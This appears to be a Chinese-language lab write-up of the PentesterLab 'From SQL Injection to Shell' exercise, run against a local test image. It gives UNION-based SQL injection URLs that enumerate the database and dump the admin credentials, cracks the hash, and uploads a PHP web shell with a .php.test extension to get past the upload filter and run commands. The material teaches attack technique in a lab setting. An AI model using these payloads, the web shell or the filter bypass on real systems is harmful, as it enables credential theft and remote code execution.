# From SQL Injection to Shell

## 实验基本思路   
- 收集web开发的基本信息  
- 检测并利用SQL注入检索信息
- 获取管理员权限并执行代码  

### 实验环境   
- 服务器采用的是Pentesterlab封装好的镜像来进行搭建，采用的是Linux的系统。  
- 攻击方采用的是Windows系统

### 实验过程
- **点击页面各选项，查看变化**  
  通过观察地址栏认定这是一个基于PHP的网页

  
- **简单的SQL注入漏洞的判断**  

   
   1.使用UNION SELECT语句进行构造查看
  
   

   页面未重新定制错误信息页，泄露出有可以攻击的点，通过构造相同的行数应该有可能可以完成攻击
  
   
   
```
http://localhost:8000/cat.php?id=1 union select 1,2,3,4

```

   通过不断地构造发现，如下输入页面可以正常访问
  
   2.使用ORDER BY 语句进行构造，返回的结果会根据ORDER BY 语句选择的列进行排序，ORDER BY后可以是列名，也可以是第几列的数字，如果列数超出现有值，数据库会报错。





**规律：**
1.列数小于等于页面列数时，可以正常显示
2.列数大于页面列数时，会报错

- **寻找注入所能利用的信息**

  通过尝试构造 1=1语句发现产生错误信息，发现该网页数据库为Mysql，利用这个特征尝试利用Mysql函数特质尝试发送一些重要信息给我们：
  
  
  
1.使用current_user()语句，用来取得 MySQL 当前使用者名称
  
```
http://localhost:8000/cat.php?id=1 UNION SELECT 1,current_user(),3,44
```


  
2.使用version()语句，得到数据库版本号
```
http://localhost:8000/cat.php?id=1 UNION SELECT 1,@@version,3,4
```



从MySQL版本5开始，MySQL提供关于数据库、表、列的meta-information，这些信息储存在information_schema数据库里，由此也许可以获取到一些敏感的信息。

得到对应的表和表内的列
- 表：
```
http://localhost:8000/cat.php?id=1 UNION SELECT 1,table_name,3,4 FROM information_schema.tables
```


- 列：

```
http://localhost:8000/cat.php?id=1 UNION SELECT 1,column_name,3,4 FROM information_schema.columns
```



**利用查询语句得到管理员账号与密码** 
- 获取用于访问管理页面的用户名和密码

```
http://localhost:8000/cat.php?id=1 UNION SELECT 1,concat(login,':',password),3,4 FROM users
```


- 利用网络查询或密码破解工具得到密码明文

[md5在线解密破解](http://pmd5.com/)  



- 根据已知的账号密码成功登录到管理员界面：



- 利用管理员界面相关功能上传Webshell和执行代码获取管理员权限：
```
<?php
  system($_GET['cmd']);
?>
```





> 应用防止文件扩展名.PHP上传,需要查找其他方式突破这个限制（php.test这将绕过简单的.php过滤器，但服务器仍会将它视作.php文件，因为配置中没有对于.test文件的处理器。）




查看网页源代码，查看所上传的PHP文件的位置。开始对服务器进行近身肉搏



```
http://localhost:8000/admin/uploads/W2W.php.test?cmd=uname
```


